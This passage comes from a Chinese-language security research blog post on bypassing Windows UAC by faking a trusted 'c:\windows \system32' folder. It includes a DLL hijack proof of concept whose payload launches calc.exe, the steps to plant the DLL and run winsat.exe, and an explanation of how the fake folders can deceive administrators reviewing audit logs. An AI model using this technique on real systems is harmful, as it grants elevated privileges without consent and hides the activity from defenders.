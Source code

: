 ```
#pragma comment (linker, "/export:VerInstallFileW=c:\\windows\\system32\\version.VerInstallFileW,@11")
#pragma comment (linker, "/export:VerLanguageNameA=c:\\windows\\system32\\version.VerLanguageNameA,@12")
#pragma comment (linker, "/export:VerLanguageNameW=c:\\windows\\system32\\version.VerLanguageNameW,@13")
#pragma comment (linker, "/export:VerQueryValueA=c:\\windows\\system32\\version.VerQueryValueA,@14")
#pragma comment (linker, "/export:VerQueryValueW=c:\\windows\\system32\\version.VerQueryValueW,@15")

BOOL WINAPI DllMain(HINSTANCE hInst,DWORD reason,LPVOID)
{
	system("start calc.exe");
	return true;
}
```

将其编译成dll，另存为`"c:\windows \system32\VERSION.dll"`，

### 5、启动exe

命令行下启动需要绝对路径：`"c:\windows \system32\winsat.exe"`

**注：**

这里不可以使用短文件名(短文件名通过`"dir /x"`获得）


## 0x04 利用分析
---

1、可供利用的位置不唯一

在我的测试系统(Win7 x64)中,可供利用的exe有39个，可供利用的dll也有很多

2、对于Long UNC这种文件夹还有其他形式

例如：

- 文件名可以包含多个空格： `"\\?\C:\Windows    "`
- 使用字符`"."`(最少两个)： `"\\?\C:\Windows.."`

但其他形式的文件夹无法用来绕过UAC

3、使用Long UNC创建伪造的文件夹能够欺骗“粗心的管理员”

例如系统开启`Windows command line process auditing`，记录程序运行的参数

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-8/3-1.png)

肉眼很难分辨

## 0x05 小结
---

本文对通过模拟可信目录绕过UAC的方法进行分析，分享测试中的细节



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

